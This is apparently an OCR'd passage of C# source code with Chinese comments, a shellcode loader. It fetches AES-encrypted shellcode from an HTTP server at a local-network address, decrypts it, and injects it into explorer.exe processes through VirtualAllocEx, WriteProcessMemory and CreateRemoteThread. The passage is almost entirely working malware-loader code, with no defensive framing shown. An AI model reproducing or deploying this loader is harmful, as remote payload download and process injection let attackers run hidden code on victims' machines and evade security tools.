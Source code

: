 ```c#
            byte[] shellcode = new byte[strings.Length];
            //逐个字符变为16进制字节数据
            for (int i = 0; i < strings.Length; i++)
            {
                shellcode[i] = Convert.ToByte(strings[i], 16);
            }
            Console.WriteLine(strings.Length);
            try
            {

                Process[] pname = Process.GetProcesses(); //取得所有进程
                foreach (Process name in pname)
                {
                    if (name.ProcessName.ToLower().IndexOf("explorer") != -1)//注入到资源管理器中
                    {
                        IntPtr hThread = IntPtr.Zero;
                        UInt32 threadId = 0;
                        IntPtr pinfo = IntPtr.Zero;

                        UInt32 funcAddr = (uint)VirtualAllocEx(name.Handle, 0, (uint)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                        //在宿主进程中申请一块存储区域

                        WriteProcessMemory(name.Handle, (int)funcAddr, shellcode, shellcode.Length, 0);
                        //通过WriteProcessMemory函数将线程代码写入宿主进程中（替换上边的）

                        /*threadId = GetProcAddress(GetModuleHandleA("Kernel32"), "LoadLibraryA");*/
                        //取得loadlibrary在kernek32.dll地址

                        hThread = CreateRemoteThread(name.Handle, 0, 0, funcAddr, pinfo, 0, ref threadId);
                        WaitForSingleObject(hThread, 0xFFFFFFFF);
                        Console.WriteLine("执行完毕，Success");
                    }
                }
            }
            catch (Exception e)
            {
                Console.Error.WriteLine("exception: " + e.Message);
            }
        }
        static void Main(string[] args)
        {
            NewKey();//生成32位的密钥key
            string shellcode = GetShell("http://192.168.1.103:5000/");//从HTTP服务器获取加密的Shellcode
            shellcode = AesDecrypt(shellcode, key);//这里就得到了动态加解密后的shellcode
            //Console.WriteLine(shellcode);//输出测试

            //接下来注入到进程
            runShell(shellcode);
        }
    }
}

```
